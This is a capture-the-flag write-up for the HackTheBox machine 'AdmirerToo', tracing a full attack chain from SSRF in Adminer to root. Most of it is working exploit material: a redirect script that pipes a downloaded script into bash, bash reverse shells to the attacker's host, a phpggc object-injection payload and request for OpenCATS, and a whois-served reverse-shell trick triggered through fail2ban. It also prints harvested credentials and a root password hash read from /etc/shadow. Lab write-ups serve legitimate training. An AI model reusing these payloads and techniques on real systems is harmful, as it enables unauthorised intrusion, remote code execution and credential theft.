




# AdmirerToo - HackTheBox - Writeup
Linux, 40 Base Points, Hard


## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```22``` and ```80```.

***User***: By reading the HTML source of ```403``` pages we found vhost ```admirer-gallery.htb```, Found ```Adminer``` on ```db.admirer-gallery.htb```, Found Admier SSRF (```CVE-2021-21311```), Using the SSRF we access to internal port ```4242``` and found that is ```openTSDB```, Using ```CVE-2020-35476``` we get RCE and we get a reverse shell as ```opentsb``` user, Enumerate and found ```/var/www/adminer/plugins/data/servers.php``` which contains the password of ```jennifer``` user.
 
***Root***: Found ```fail2ban``` and ```openCATS``` running of the target machine on port ```8080```, Changing the ```admin``` password of ```openCATS``` on DB (Found the DB password on ```/opt/opencats/config.php```, Using ```CVE-2021-25294``` to write files using ```openCATS```, Using that we write a file ```/usr/local/etc/whois.conf```, Failed to log in 3 times as ```root``` user to we trigger ```fail2ban``` and we get a reverse shell as ```root```.


## AdmirerToo Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/AdmirerToo]
└──╼ $ nmap -sV -sC -oA nmap/AdmirerToo 10.10.10.249
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-30 02:35 IDT
Nmap scan report for 10.10.11.137
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 99:33:47:e6:5f:1f:2e:fd:45:a4:ee:6b:78:fb:c0:e4 (RSA)
|   256 4b:28:53:64:92:57:84:77:5f:8d:bf:af:d5:22:e1:10 (ECDSA)
|_  256 71:ee:8e:e5:98:ab:08:43:3b:86:29:57:23:26:e9:10 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Admirer
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Let's scan also for all ports:
```console
┌─[evyatar@parrot]─[/hackthebox/AdmirerToo]
└──╼ $ nmap -p- 10.10.10.249
Starting Nmap 7.92 ( https://nmap.org/ ) at 2022-04-23 11:01 EDT
Nmap scan report for admirertoo.htb (10.10.11.137)
Host is up (0.036s latency).

PORT      STATE    SERVICE        VERSION
22/tcp    open     ssh            OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 99:33:47:e6:5f:1f:2e:fd:45:a4:ee:6b:78:fb:c0:e4 (RSA)
|   256 4b:28:53:64:92:57:84:77:5f:8d:bf:af:d5:22:e1:10 (ECDSA)
|_  256 71:ee:8e:e5:08:43:3b:86:29:57:23:26:e9:10 (ED25519)
80/tcp    open     http           Apache httpd 2.4.38 ((Debian))
|_http-title: Admirer
|_http-server-header: Apache/2.4.38 (Debian)
4242/tcp  closed   vrml-multi-use
16010/tcp filtered unknown
16030/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
By observing port 80 we get the following web page:


If we are trying to access [http://10.10.11.137/.htaccess](http://10.10.11.137/.htaccess) we get ```403``` HTTP response code:



But by observing the source code we can see the following mail ```webmaster@admirer-gallery.htb```:
```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at <a href="mailto:webmaster@admirer-gallery.htb">10.10.11.137</a> Port 80</address>
</body></html>
```

Let's try to search another vhosts:
```console
┌─[evyatar@parrot]─[/hackthebox/AdmirerToo]
└──╼ $ gobuster vhost -k -u http://admirer-gallery.htb -w ./subdomains-top1milion.txt -t 100 -o out
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://admirer-gallery.htb
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     ./subdomains-top1milion.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/04/30 21:25:16 Starting gobuster in VHOST enumeration mode
===============================================================
Found: db.admirer-gallery.htb (Status: 200) [Size: 2569]
Found: DB.admirer-gallery.htb (Status: 200) [Size: 2569]

```

By browsing to [http://db.admirer-gallery.htb](http://db.admirer-gallery.htb) we get:



This is Adminer, Adminer is open-source database management in a single PHP file. 

By observing the POST request of ```Enter``` we can see the following HTTP POST request:
```HTTP
POST /?server=localhost HTTP/1.1
Host: db.admirer-gallery.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://db.admirer-gallery.htb/?server=localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 162
Origin: http://db.admirer-gallery.htb
DNT: 1
Connection: close
Cookie: adminer_sid=j7rqk312mumeqllrje2bo9so7u; adminer_key=75ce386fc89a4531d269425a36bc2139; adminer_permanent=c2VydmVy-bG9jYWxob3N0-YWRtaXJlcl9ybw%3D%3D-YWRtaXJlcg%3D%3D%3AkgYnW%2B3yPJQOIT3Sfoo0x%2BMG%2BL8VgDgv; adminer_version=4.8.1; adminer_settings=; adminer_engine=
Upgrade-Insecure-Requests: 1

auth%5Bdriver%5D=server&auth%5Bserver%5D=localhost&auth%5Busername%5D=admirer_ro&auth%5Bpassword%5D=1w4nn4b3adm1r3d2%21&auth%5Bdb%5D=admirer&auth%5Bpermanent%5D=1
``` 

We can see the password ```1w4nn4b3adm1r3d2%21``` which is ```1w4nn4b3adm1r3d2!```.

In Adminer from version 4.0.0 and before 4.7.9 there is a server-side request forgery vulnerability, Users of Adminer versions bundling all drivers (e.g. adminer.php) are affected. This is fixed in version 4.7.9.

If we have SSRF we can try to access port ```4242```:
```console
...
4242/tcp  closed   vrml-multi-use
...
```

Let's use the following [CVE-2021-21311](https://github.com/llhala/CVE-2021-21311) to access port ```4242``` using SSRF:
```console
┌─[evyatar@parrot]─[/hackthebox/AdmirerToo]
└──╼ $ sudo python3 ssrf.py --host 10.10.16.5 --url http://db.admirer-gallery.htb --redirect http://10.10.11.137:4242
Running HTTP Server on 10.10.16.5:80
[CVE-2021-21311]
[CLIENT] 10.10.11.137:46680
[REQUEST]
GET / HTTP/1.0
Authorization: Basic Og==
Host: 10.10.16.5
Connection: close
Content-Length: 2
Content-Type: application/json
[DATA]
[]
[SSRF Response]
<!DOCTYPE html><html><head><meta http-equiv=content-type content="text/html;charset=utf-8"><title>OpenTSDB</title>
<style><!--
body{font-family:arial,sans-serif;margin-left:2em}A.l:link{color:#6f6f6f}A.u:link{color:green}.fwf{font-family:monospace;white-space:pre-wrap}//--></style><script type=text/javascript language=javascript src=s/queryui.nocache.js></script></head>
<body text=#000000 bgcolor=#ffffff><table border=0 cellpadding=2 cellspacing=0 width=100%><tr><td rowspan=3 width=1% nowrap><td>&nbsp;</td></tr><tr><td><font color=#507e9b><b></b></td></tr><tr><td>&nbsp;</td></tr></table><div id=queryuimain></div><noscript>You must have JavaScript enabled.</noscript><iframe src=javascript:'' id=__gwt_historyFrame tabIndex=-1 style=position:absolute;width:0;height:0;border:0></iframe><table width=100% cellpadding=0 cellspacing=0><tr><td class=subg></td></tr></table></body></html>
```
As we can see from the response - this is ```OpenTSDB```.

According to [https://security.snyk.io/vuln/SNYK-JAVA-NETOPENTSDB-1041751](https://security.snyk.io/vuln/SNYK-JAVA-NETOPENTSDB-1041751) ```openTSDB``` vulnrable to ```RCE``` (CVE-2020-35476) by browsing to the following URL:
```console
http://opentsdbhost.local/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('touch/tmp/poc.txt')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

Let's edit the script ```ssrf.py``` and change the redirect URL to download our reverse shell and run it:
```python
...
def do_GET(self):
        self.send_response(301)
        self.send_header('Location', "http://localhost:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system('curl${IFS}http://10.10.14.14:8000/rev.sh|bash')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json") #self.redirect)
        self.end_headers()
...
```

Where ```rev.sh``` is:
```console
┌─[evyatar@parrot]─[/hackthebox/AdmirerToo]
└──╼ $ cat rev.sh
bash -i >& /dev/tcp/10.10.14.14/4242 0>&1
```

Now we need to listen on ports ```8000``` and on port ```4242```.

Run the ```ssrf.py``` script again:
```console
┌─[evyatar@parrot]─[/hackthebox/AdmirerToo]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.137 - - [03/May/2022 23:14:32] "GET /rev1.sh HTTP/1.1" 200 -
```

And we get revesre shell:
```console
┌─[evyatar@parrot]─[/hackthebox/AdmirerToo]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from admirer-gallery.htb [10.10.11.137] 40926
bash: cannot set terminal process group (526): Inappropriate ioctl for device
bash: no job control in this shell
opentsdb@admirertoo:/$ 
opentsdb@admirertoo:/$ ls /home
ls /home
jennifer
```

By enumerating we found the following password:
```console
opentsdb@admirertoo:/var/www/adminer$ cat plugins/data/servers.php
cat plugins/data/servers.php
<?php
return [
  'localhost' => array(
//    'username' => 'admirer',
//    'pass'     => 'bQ3u7^AxzcB7qAsxE3',
// Read-only account for testing
    'username' => 'admirer_ro',
    'pass'     => '1w4nn4b3adm1r3d2!',
    'label'    => 'MySQL',
    'databases' => array(
      'admirer' => 'Admirer DB',
    )
  ),
];
```

Let's use the password ```bQ3u7^AxzcB7qAsxE3``` for the user ```jennifer```:
```console
┌─[evyatar@parrot]─[/hackthebox/AdmirerToo]
└──╼ $ ssh jennifer@10.10.11.137
jennifer@10.10.11.137's password: 
Linux admirertoo 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Tue Feb 22 20:58:38 2022 from 10.10.14.8
jennifer@admirertoo:~$ cat user.txt
8469cf82267ff744db5bc52600358f9b
```

And we get the user flag ```8469cf82267ff744db5bc52600358f9b```.

### Root

By enumerating we found we have [openCATS](https://github.com/opencats/OpenCATS) installed on ```/opt/opencats```:
```console
jennifer@admirertoo:/opt/opencats$ ls
ajax             ci             docker         installtest.php    main.css          rebuild_old_docs.php  upload
ajax.php         composer.json  Error.tpl      installwizard.php  modules           rss                   vendor
attachments      composer.lock  ie.css         issue_template.md  not-ie.css        scripts               wsdl
careers          config.php     images         js                 optional-updates  src                   xml
careersPage.css  constants.php  index.php      lib                QueueCLI.php      temp
CHANGELOG.MD     db             INSTALL_BLOCK  LICENSE.md         README.md         test

```

Let's print the ```config.php``` file:
```console
jennifer@admirertoo:/opt/opencats$ cat config.php 
<?php
...

define('LICENSE_KEY','3163GQ-54ISGW-14E4SHD-ES9ICL-X02DTG-GYRSQ6');

/* legacy root. */
if( !defined('LEGACY_ROOT') )
{
    define('LEGACY_ROOT', '.');
}

/* Database configuration. */
define('DATABASE_USER', 'cats');
define('DATABASE_PASS', 'adm1r3r0fc4ts');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'cats_dev');
...
```

We found the credentials of ```cats_dev```.

Let's connect to this DB:
```console
jennifer@admirertoo:/opt/opencats$ mysql -u cats -padm1r3r0fc4ts -D cats_dev
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 113
Server version: 10.3.31-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [cats_dev]> show tables
    -> ;
+--------------------------------------+
| Tables_in_cats_dev                   |
+--------------------------------------+
| access_level                         |
| activity                             |
| activity_type                        |
| attachment                           |
| calendar_event                       |
| calendar_event_type                  |
| candidate                            |
| candidate_duplicates                 |
| candidate_joborder                   |
| candidate_joborder_status            |
| candidate_joborder_status_history    |
| candidate_jobordrer_status_type      |
| candidate_source                     |
| candidate_tag                        |
| career_portal_questionnaire          |
| career_portal_questionnaire_answer   |
| career_portal_questionnaire_history  |
| career_portal_questionnaire_question |
| career_portal_template               |
| career_portal_template_site          |
| company                              |
| company_department                   |
| contact                              |
| data_item_type                       |
| eeo_ethnic_type                      |
| eeo_veteran_type                     |
| email_history                        |
| email_template                       |
| extension_statistics                 |
| extra_field                          |
| extra_field_settings                 |
| feedback                             |
| history                              |
| http_log                             |
| http_log_types                       |
| import                               |
| installtest                          |
| joborder                             |
| module_schema                        |
| mru                                  |
| queue                                |
| saved_list                           |
| saved_list_entry                     |
| saved_search                         |
| settings                             |
| site                                 |
| sph_counter                          |
| system                               |
| tag                                  |
| user                                 |
| user_login                           |
| word_verification                    |
| xml_feed_submits                     |
| xml_feeds                            |
| zipcodes                             |
+--------------------------------------+
55 rows in set (0.001 sec)
```

We can see the table ```user_login```, Let's select from this table:
```console
MariaDB [cats_dev]> select user_name,password from user;
+----------------+----------------------------------+
| user_name      | password                         |
+----------------+----------------------------------+
| admin          | dfa2a420a4e48de6fe481c90e295fe97 |
| cats@rootadmin | cantlogin                        |
| jennifer       | f59f297aa82171cc860d76c390ce7f3e |
+----------------+----------------------------------+
3 rows in set (0.000 sec)

```

We are not able to crack those hashes using ```john``` and ```rockyou.txt``` but we can change the admin hash to our password ```evyatar``` which is ```0d69ef2689a6201ab7896e7aad788bc4``` on MD5:
```console
MariaDB [cats_dev]> update user set password='0d69ef2689a6201ab7896e7aad788bc4' where user_name='admin';
Query OK, 1 row affected (0.001 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Now, By running ```netstat -ant``` we can see the internal port ```8080```:
```console
jennifer@admirertoo:/opt/opencats$ netstat -ant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN
...
```

Let's create SSH tunnel to this port:`
```console
┌─[evyatar@parrot]─[/hackthebox/AdmirerToo]
└──╼ $ ssh -N -L 8888:127.0.0.1:8080 jennifer@10.10.11.137
jennifer@10.10.11.137's password: 

```

By browsing to [http://localhost:8888](http://localhost:8888) we get:



We can see that is ```OpenCATS Version 0.9.5.2```

By logging in using our credentials ```admin:evyatar``` we get:



```OpenCATS``` is vulnerable to PHP Object injection, by leveraging this vulnerability, it is possible to conduct arbitrary file writing and execute arbitrary code on a system.

Following this [OpenCATS PHP Object Injection to Arbitrary File Write](https://snoopysecurity.github.io/web-application-security/2021/01/16/09_opencats_php_object_injection.html) we can see that we can write a file but we have no permissions to write file to ```openCATS``` directory.

We need to chain another exploit.

By enumerating again we can see that we have [fail2ban](https://www.fail2ban.org/wiki/index.php/Main_Page) installed:
```console
jennifer@admirertoo:/opt/opencats$ ls /etc/fail2ban/
action.d       fail2ban.d  jail.conf  jail.local       paths-common.conf  paths-opensuse.conf
fail2ban.conf  filter.d    jail.d     paths-arch.conf  paths-debian.conf
``` 

```Fail2ban``` scans log files (e.g. /var/log/apache/error_log) and bans IPs that show the malicious signs -- too many password failures, seeking for exploits, etc. Generally ```Fail2Ban``` is then used to update firewall rules to reject the IP addresses for a specified amount of time, although any arbitrary other action (e.g. sending an email) could also be configured. Out of the box ```Fail2Ban``` comes with filters for various services (apache, courier, ssh, etc) [Reference](https://www.fail2ban.org/wiki/index.php/Main_Page).

Let's observe the configuration of ```fail2ban```:
```console
jennifer@admirertoo:/opt/opencats/vendor$ cat /etc/fail2ban/jail.local 
[DEFAULT]
ignoreip = 127.0.0.1
bantime = 60s
destemail = root@admirertoo.htb
sender = fail2ban@admirertoo.htb
sendername = Fail2ban
mta = mail
action = %(action_mwl)s
```

So first let's create a file called ```payload```:
```console
}]|. [10.10.14.14]
 ```
 
According to [OpenCATS PHP Object Injection to Arbitrary File Write](https://snoopysecurity.github.io/web-application-security/2021/01/16/09_opencats_php_object_injection.html) we can write file with the following created payload:
```console
┌─[evyatar@parrot]─[/hackthebox/AdmirerToo]
└──╼ $ ./phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf ../payload
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A25%3A%22%2Fusr%2Flocal%2Fetc%2Fwhois.conf%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A18%3A%22%7D%5D%7C.+%5B10.10.16.5%5D%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3B%7Di%3A7%3Bi%3A7%3B%7D
```

Send it using the following request:
```console
GET /index.php?m=activity&parametersactivity%3AActivityDataGrid=a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A25%3A%22%2Fusr%2Flocal%2Fetc%2Fwhois.conf%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A18%3A%22%7D%5D%7C.+%5B10.10.16.5%5D%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3B%7Di%3A7%3Bi%3A7%3B%7D HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq; CATS=q8efplcnttak37uhi24bgfbq53
Upgrade-Insecure-Requests: 1


```


And by sending it we can see the file ```whois.conf``` (whois.conf - alternative WHOIS servers list for whois client):
```console
jennifer@admirertoo:/opt/opencats/vendor$ ls -ltr /usr/local/etc
total 4
-rw-r--r-- 1 devel devel 61 May  5 23:04 whois.conf
jennifer@admirertoo:/opt/opencats/vendor$ cat whois.conf 
[{"Expires":1,"Discard":false,"Value":"}]|. [10.10.14.14]\n"}]
```

Now we need to listen to ```whois``` port:
```console
┌─[evyatar@parrot]─[/hackthebox/AdmirerToo]
└──╼ $ cat revshell 
~| bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1" &
┌─[evyatar@parrot]─[/hackthebox/AdmirerToo]
└──╼ $ sudo ncat -nvlkp 43 -c "cat revshell"
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::43
Ncat: Listening on 0.0.0.0:43

```

Now let's run ```whois``` on the target machine and we can see it's fetch the payload from our machine:
```console
jennifer@admirertoo:/tmp$ whois 10.10.14.14
~| bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1" &
```

Now let's try to connect using SSH and insert the wrong password to make ```fail2ban``` work:
```console
┌─[evyatar@parrot]─[/hackthebox/AdmirerToo]
└──╼ $ ssh root@10.10.11.137
root@10.10.11.137's password: 
Permission denied, please try again.
root@10.10.11.137's password: 
Permission denied, please try again.
root@10.10.11.137's password: 

```

And we get a reverse shell:
```console
┌─[evyatar@parrot]─[/hackthebox/AdmirerToo]
└──╼ $ nc -lvp 4444
listening on [any] 4444 ...
root@admirertoo:/# id && hostname
id && hostname
uid=0(root) gid=0(root) groups=0(root)
admirertoo
root@admirertoo:/# cat /root/root.txt
cat /root/root.txt
cc0be00f55702eea814637a699b0e613
```


PDF password:
```console
root@admirertoo:/# cat /etc/shadow | grep root | cut -d':' -f2
cat /etc/shadow | grep root | cut -d':' -f2
$6$eP5MVyB1lXtVQgzU$H4xJdGiHfSu9JmUR80juqHC5BAca79yir2Z6bipW8s.DowTuNRo82/CjN7EMBK8lczD1AMYxgKTIp79DjN2R31
```